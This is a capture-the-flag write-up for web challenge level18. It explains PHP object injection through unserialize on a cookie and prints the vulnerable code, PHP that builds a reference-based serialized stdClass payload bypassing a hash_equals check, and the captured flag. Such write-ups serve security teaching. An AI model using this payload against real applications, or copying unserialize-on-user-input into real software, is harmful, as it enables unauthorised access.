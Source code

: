 ```yaml
---
layout: default
title: level18
---
```


Here, there is another `Object injection` using `unserialize`.
We can see these lines:
```php
$obj = $_COOKIE['obj'];
$unserialized_obj = unserialize ($obj);
$unserialized_obj->flag = $flag;  
if (hash_equals ($unserialized_obj->input, $unserialized_obj->flag))
    echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
``` 

It sets the flag to `$unserialized_obj->flag` and then check whether `$unserialized_obj->input` equal to `$unserialized_obj->flag`. 

How can we make it? assume we can insert whatever values we want into `input` and into `flag`, during the `unserialize`.

We can simply make `input` to be reference to `flag`!
Then, when changing `flag`, `input` will get changed as well.

Something like this:
```php
class MyClass1 {
	public $input;
    public $flag = 'mydummyflag';
}
$myclass=new MyClass1();
$myclass->input=&$myclass->flag;

echo serialize($myclass)."\n";
```
This gives us: `O:8:"MyClass1":2:{s:5:"input";s:11:"mydummyflag";s:4:"flag";R:2;}`

We only need to change from `MyClass1` to `stdClass`:
`O:8:"stdClass":2:{s:5:"input";s:11:"mydummyflag";s:4:"flag";R:2;}`


![FLAG image](./images/level18.png)

**Flag:** ***`WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}`*** 
